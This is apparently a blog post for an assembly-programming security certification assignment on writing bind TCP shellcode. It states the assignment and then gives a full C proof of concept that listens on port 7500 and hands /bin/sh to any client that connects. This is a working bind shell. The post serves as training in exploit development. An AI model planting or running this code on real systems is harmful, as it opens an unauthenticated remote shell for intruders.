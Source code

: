 ```yaml
---
comments: true
date: 2014-04-03
layout: blog
category: blog
title: 'SLAE Assignment 1: Bind TCP Shellcode'
summary: '1st assignment of the SLAE'
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the first of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a shellcode that bind to a specific port;

  2. The shellcode must execute /bin/sh on incoming connection;
	
  3. The port number should be easily configurable

First of all i made a proof of concept of a program that bind to a port (7500) and execute `/bin/sh` on the accepted connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of newfd.

	#define STDIN 0
	#define STDOUT 1
	#define STDERR 2

	int main(void){
		int fd, newfd;
		struct sockaddr_in server_addr;
		char *argv[] = { "/bin/sh", NULL };

		server_addr.sin_family = AF_INET;
		server_addr.sin_port = htons(7500);
		server_addr.sin_addr.s_addr = htonl(INADDR_ANY);

		fd = socket(AF_INET, SOCK_STREAM, 0);

		bind(fd, (struct sockaddr *) &server_addr, 16);

		listen(fd, 1);

		newfd = accept(fd, NULL, NULL);

		//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
		dup2(newfd, STDIN);
		dup2(newfd, STDOUT);
		dup2(newfd, STDERR);

		execve(argv[0], &argv[0], NULL);

		return 0;
	}
